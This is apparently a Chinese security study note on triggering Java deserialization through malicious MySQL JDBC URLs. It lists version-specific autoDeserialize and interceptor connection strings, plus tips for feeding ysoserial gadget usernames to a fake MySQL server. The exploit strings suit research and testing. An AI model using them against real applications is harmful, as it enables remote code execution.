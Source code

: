 ### 速通

#### ServerStatusDiffInterceptor触发

- **8.x:** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor`
- **6.x(属性名不同):** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor`
- **5.1.11及以上的5.x版本（包名没有了cj）:**` jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor`
- **5.1.10及以下的5.1.X版本：** 同上，但是需要连接后执行查询。
- **5.0.x:** 还没有`ServerStatusDiffInterceptor`这个东西

#### detectCustomCollations触发

- **5.1.41及以上:** 不可用
- **5.1.29-5.1.40:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true`
- **5.1.28-5.1.19：** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true`
- **5.1.18以下的5.1.x版本：** 不可用
- **5.0.x版本不可用**

### 踩坑指南

1. [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)缺省修改config.json之后需要及时重启服务，只有每次启动才能重新读取`config.json`

![image-20240907115620728](18.MYSQL任意文件读取.assets/image-20240907115620728.png)

2. 如果不用缺省的`config.json`中的`yso`,需要针对user进行改变，而不是作者提供的`yso_JRE8u20_calc`,从代码中可以看到通过对username以`_`进行分割，username中需要携带`yso_type(payload)`，`yso_command(执行命令)`，应该是`yso_CommonsCollections5_open -a Calculator.app`,使用yso_开头的用户名需要针对`config.json`将`yso`的字典删除
